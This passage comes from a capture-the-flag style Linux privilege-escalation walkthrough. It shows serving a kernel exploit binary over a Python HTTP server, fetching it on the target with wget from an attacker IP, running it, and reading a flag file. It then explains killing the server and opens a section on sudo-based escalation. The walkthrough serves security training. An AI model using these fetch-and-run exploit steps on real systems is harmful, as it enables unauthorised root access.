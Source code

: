 python3 -m http.server
```

Step 4: on the Target machine download the exploit file, 37292.c

```
wget https://10.10198.10:8000/ofc
```

Step 5: 

Note:  
[Simple HTTP Server with Upload](https://www.youtube.com/watch?v=au8DlTAHx5o)
https://github.com/gotbletu/shownotes/blob/master/simplehttpserver.txt
https://github.com/tualatrix/tools/blob/master/SimpleHTTPServerWithUpload.py


python2 

```
ls 
ofc
ls -la
chmod +x ofc
./ofc

id
cd /home/matt
cat flag1.txt
```

Kill python http server

```
MYPORT=8888; 
kill -9 `ps -ef |grep SimpleHTTPServer |grep $MYPORT |awk '{print $2}'`
```

Explain command line :
- ```ps -ef```  : list all process.

- ```grep SimpleHTTPServer ```: filter process which belong to "SimpleHTTPServer"

- ```grep $MYPORT ```: filter again process belong to "SimpleHTTPServer" where port is MYPORT (.i.e: MYPORT=8888)

- ```awk '{print $2}'``` : print second column of result which is the PID (Process ID)

- ```kill -9 <PID> ```: Force Kill process with the appropriate PID.

---


Task 6 Privilege Escalation: Sudo
---

The sudo command, by default, allows you to run a program with root privileges. Under some conditions, system administrators may need to give regular users some flexibility on their privileges. For example, a junior SOC analyst may need to use Nmap regularly but would not be cleared for full root access. In this situation, the system administrator can allow this user to only run Nmap with root privileges while keeping its regular privilege level throughout the rest of the system.

Any user can check its current situation related to root privileges using the ```sudo -l``` command.

```